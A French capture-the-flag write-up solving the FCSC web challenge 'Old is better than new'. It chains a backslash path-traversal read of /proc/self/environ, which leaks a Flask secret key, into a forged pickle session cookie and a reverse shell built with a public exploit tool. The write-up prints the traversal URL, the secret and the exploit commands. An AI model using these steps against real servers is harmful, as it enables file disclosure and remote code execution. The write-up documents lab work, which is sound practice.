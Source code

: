Web - Old is better than new
=================================

Enoncé
-----------
Dave a récemment récupéré son ancien site de blog qu'il utilisait à l'époque, fonctionnant sur un ordinateur Windows. Avec vos connaissances en sécurité modernes, pouvez-vous découvrir les vulnérabilités qui auraient pu l'exposer à une compromission à l'époque ?

Exploit
------------

Très peu de code dans cette app python : 

.. code-block:: python 

    from flask import Flask, send_from_directory, session
    import ntpath
    import os

    # Act as if we're on Windows (I can't run Windows in Docker, sadly)
    path = ntpath
    _original_join = os.path.join
    os.path.join = lambda *parts: _original_join(*parts).replace("\\", "/")

    app = Flask(__name__)
    app.secret_key = os.environ.get("APP_SECRET")
    PUBLIC_DIR = os.path.join(os.path.dirname(__file__), "public")

    @app.route("/")
    @app.route("/<path:path>")
    def serve(path=None):
        return send_from_directory(PUBLIC_DIR, path or "index.html")

    if __name__ == "__main__":
        app.run(host="0.0.0.0", port=8000)


On peut tout de suite supposer qu'il y a une LFI via le replace de \ en / et l'utilisation de send_from_directory

On trouve rapidement notre LFI : 

.. code-block:: console
    
    https://old-is-better-than-new.fcsc.fr/..\..\..\..\proc\self\environ

On obtient la clé secrète de l'application flask : APP_SECRET=ce9fbd88ac4eec98482b6aaf623adee54060b1ef477c677437a1982fbda0e4ac

On peut maintenant forger des cookies, mais pourquoi faire ? 

Après plusieurs recherches sur werkzeug et flask on tombe sur : 

Dans Flask 0.10 : "Changed default cookie serialization format from pickle to JSON to limit the impact an attacker can do if the secret key leaks."

On se comprend donc qu'il y a une désérialisation via pickle

Puis force de recherche on tombe sur : https://www.reddit.com/r/flask/comments/17d4o1/the_dangers_of_deserializing_pickle_objects_and/?rdt=52911 

Qui indique ce site : https://web.archive.org/web/20141026081720/http://vudang.com/2013/01/python-web-framework-from-lfr-to-rce/ 

Et qui contient : 

.. code-block:: console
    
    Flask / Werkzeug ( by default, flash use werkzeug session API that's why we have it here. ): Flask implicitly calls session unserialization if the config['SECRET_KEY'] is set to some value and the session_cookie_name (default='session') exists in the cookie, even if there is no session handling code in the web app (how nice, attacker can create a backdoor by adding SECRET_KEY to the config file, and the naive user will just think of it as 'important').
    
On va donc utiliser l'exploit proposé dans le Reddit : https://github.com/danghvu/pwp

Dockerfile pour python2 : 

.. code-block:: console
    
    
    FROM python:2.7
    RUN apt-get update && apt-get install -y git curl && apt-get clean
    RUN pip install requests
    COPY . /app

On modifie connback.py pour mettre notre host et notre port de reverse shell
Et on modifie la commande /bin/bash par /get_flag ici : 

.. code-block:: console
    
    shell = subprocess.call(["/get_flag"])

Commande : 

.. code-block:: console
    
    sudo docker build -t test . 
    sudo docker run -it test /bin/bash
    cd app
    python exploit.py ce9fbd88ac4eec98482b6aaf623adee54060b1ef477c677437a1982fbda0e4ac https://old-is-better-than-new.fcsc.fr/

On obtient le flag dans le reverse shell